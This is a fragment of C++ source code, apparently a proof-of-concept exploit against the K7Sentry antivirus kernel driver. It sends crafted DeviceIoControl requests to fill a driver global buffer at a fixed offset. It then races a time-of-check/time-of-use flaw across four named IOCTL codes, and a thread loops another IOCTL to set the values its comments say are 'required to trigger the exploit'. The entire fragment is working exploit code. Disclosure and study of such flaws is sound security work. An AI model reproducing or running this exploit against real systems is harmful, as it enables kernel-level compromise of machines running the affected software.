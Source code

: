 ```C++

	printf("Setting up global buffer\r\n");

	//
	// This will fill the buffer at K7Sentry+0x1A960
	//
	if (!DeviceIoControl(hDevice, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

}

VOID AttemptTocTouCall(HANDLE hFile)
{
	DWORD dwDriverBase = (DWORD)g_k7Base;
	DWORD dwStartOfStructure = 0x1A960+dwDriverBase-6;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwStartOfStructure;

	//
	// INFORMATION: These are the 4 "flawed" areas as there will need to be 4 fixes put in place.
	// Uncomment to trigger the bug on the various Control Codes
	//

	// ReadFile
	//if (!DeviceIoControl(hFile, 0x95002867, data, 16, outBuffer, 4, &dwBytesReturned, NULL))

	// WriteFile
	//if (!DeviceIoControl(hFile, 0x9500286B, data, 16, outBuffer, 4, &dwBytesReturned, NULL))

	// QueryFile
	//if (!DeviceIoControl(hFile, 0x95002873, data, 8, outBuffer, 4, &dwBytesReturned, NULL))

	// SetInformationFile
	if (!DeviceIoControl(hFile, 0x9500286F, data, 16, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		//printf("Success: Got data into global\r\n");
	}
}

DWORD WINAPI TpSetExploitMagics(LPVOID lpParameter)
{
	//
	// This thread will set the global variables to be K and FF which is required to trigger the exploit
	//
	// This is achieved by just looping the 0x95002558 IOCTL
	//
```